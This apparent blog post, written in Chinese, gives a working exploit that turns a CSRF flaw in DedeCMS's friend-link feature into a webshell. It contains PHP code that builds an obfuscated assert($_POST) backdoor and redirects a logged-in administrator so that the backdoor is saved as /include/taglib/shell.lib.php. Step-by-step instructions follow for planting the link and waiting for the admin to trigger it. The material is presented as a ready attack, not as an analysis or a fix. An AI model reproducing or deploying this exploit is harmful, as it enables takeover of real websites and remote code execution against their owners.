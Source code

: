 ```yaml
---
title: "dedecms 友链 getshell"
date: 2018-03-25T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


csrf getshell

<!--more-->

## EXP

```
<?php
//print_r($_SERVER);
$referer = $_SERVER['HTTP_REFERER'];
$dede_login = str_replace("friendlink_main.php","",$referer);
$muma = '<'.'?'.'a'.'s'.'s'.'e'.'r'.'t'.'('.'$'.'_'.'P'.'O'.'S'.'T'.'['.'\''.'a'.'\''.']'.')'.';'.'?'.'>';
$exp = 'tpl.php?action=savetagfile&actiondo=addnewtag&content='. $muma .'&filename=shell.lib.php';
$url = $dede_login.$exp;
//echo $url;
header("location: ".$url);
// send mail coder
exit();
?>
```

将 exp 部署在服务器上

申请链接

`/plus/flink.php`

添加链接 网站填上 exp 的链接

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/31/1522466914.jpg)

之后等待管理员触发

shell 地址

`/include/taglib/shell.lib.php`